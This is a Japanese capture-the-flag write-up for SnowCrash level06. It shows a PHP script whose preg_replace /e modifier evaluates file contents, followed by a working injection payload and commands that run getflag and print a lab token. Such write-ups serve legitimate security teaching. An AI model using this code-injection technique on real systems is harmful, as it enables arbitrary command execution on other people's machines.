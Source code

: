 ## phpのスクリプトの内容を確認
```sh
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
$m = preg_replace("/\./", " x ", $m);
$m = preg_replace("/@/", " y", $m);
return $m;
}
function x($y, $z) {
$a = file_get_contents($y);
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
$a = preg_replace("/\[/", "(", $a);
$a = preg_replace("/\]/", ")", $a);
return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

## スクリプトのポイント
- `preg_replace('/置換対象の文字列/', '置換後の文字列', '置換対象の文字列が含まれている部分');`
- `file_get_contents`はファイルパスを渡すとファイルの中身を文字列にして返す。
- `preg_replace`の`/e`修飾子は正規表現パターンにマッチする部分がある時のみevaluate実行される。

## エクスプロイト
`[x 改行以外の任意の文字列 ]`に一致する文字列が書かれたファイルを`file_get_contents`の引数に渡すことで、任意のコマンドを実行できる。
このため、ファイルに```[x ${`getflag`} ]```と記述すると、${}のテンプレート構文(変数展開みたいな感じ)とバッククオートによる実行演算子により、`getflag`が実行できる。
https://www.php.net/manual/ja/language.operators.execution.php

```sh
level06@SnowCrash:~$ echo '[x ${`getflag`} ]' > /tmp/hoge
level06@SnowCrash:~$ ./level06 /tmp/hoge
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
